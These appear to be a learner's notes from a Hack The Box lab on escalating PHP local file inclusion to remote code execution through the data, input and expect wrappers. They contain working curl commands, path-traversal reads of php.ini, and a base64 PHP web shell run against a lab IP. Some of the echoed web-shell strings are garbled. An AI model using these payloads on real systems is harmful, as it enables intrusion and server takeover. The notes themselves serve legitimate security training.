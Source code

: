 execute code on the back-end servers and gain control over them.


One easy and common method for gaining control over the back-end server is by enumerating user credentials and SSH keys, and then use those to login to the back-end server through SSH or any other remote session.

we may find the database password in a file like `config.php`, which may match a user's password in case they re-use the same password. Or we can check the `.ssh` directory in each user's home directory,

private key (`id_rsa`) and use it to SSH into the system.

there are ways to achieve remote code execution directly:
vulnerable function without relying on data enumeration or local file privileges
>What this means is: You don’t always need to steal files (like SSH keys) or read sensitive data to get RCE. Instead, if you find a directly vulnerable function, you can execute commands right away


## Data-wrapper
used to include external data, including PHP code
>the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations

>let's first confirm whether this setting is enabled, by reading the PHP configuration file through the LFI vulnerability

#### Checking PHP Configurations
`allow_url_include`??????

1- PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache
2- at (`/etc/php/X.Y/fpm/php.ini`) for Nginx
where `X.Y` is your install PHP version.
>start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file.

`.ini` files are similar to `.php` files and should be encoded to avoid breaking. Finally, we'll use cURL or Burp instead of a browser, as the output string could be very long and we should be able to properly capture it:
```bash
AhmaDb0x@htb[/htb]$ curl "http://94.237.58.78:55981/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

```bash
AhmaDb0x@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

>so we can use the `data` wrapper. Knowing how to check for the `allow_url_include` option can be very important, as `this option is not enabled by default`

>and is required for several other LFI attacks, like using the `input` wrapper or for any RFI attack


---
It is not uncommon to see this option enabled, as many web applications rely on it to function properly, like some WordPress plugins and themes, for example.

---

#### Remote Code Execution
`allow_url_include` enabled, we can proceed with our `data` wrapper attack.

>the `data` wrapper can be used to include external data, including PHP code.

base64 encode a basic PHP web shell, as follows:
```bash
AhmaDb0x@htb[/htb]$ echo '<?pystem($_GET["cmd"]); ?>' | base64
```
```bash
┌──(pwn㉿kali)-[~]
└─$ echo -n "PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==" | jq -sRr @uri

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D
```
and then pass it to the data wrapper with `data://text/plain;base64,`.
```bash
http://94.237.58.78:55981/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

```bash
AhmaDb0x@htb[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

## Input-wrapper
used to include external input and execute PHP code. The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier.

we can send a POST request to the vulnerable URL and add our web shell as POST data.
To execute a command, we would pass it as a GET parameter

```bash
 curl -s -X POST --data '<?pstem($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

**Note:** To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)

## Expect-wrapper
directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.

>expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server,

>web apps rely on it for their core functionality, so we may find it in specific cases.

We can determine whether it is installed on the back-end server just like we did with `allow_url_include` earlier, but we'd `grep` for `expect` instead, and if it is installed and enabled we'd get the following:

```bash
AhmaDb0x@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

```bash
AhmaDb0x@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```



most common three PHP wrappers for directly executing system commands through LFI vulnerabilities. We'll also cover the `phar` and `zip` wrappers in upcoming sections, which we may use with web applications that allow file uploads to gain remote execution through LFI vulnerabilities.


```bash
http://94.237.58.78:55981/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cd%20/%20;cat%2037809e2f8952f06139011994726d9ef1.txt
```

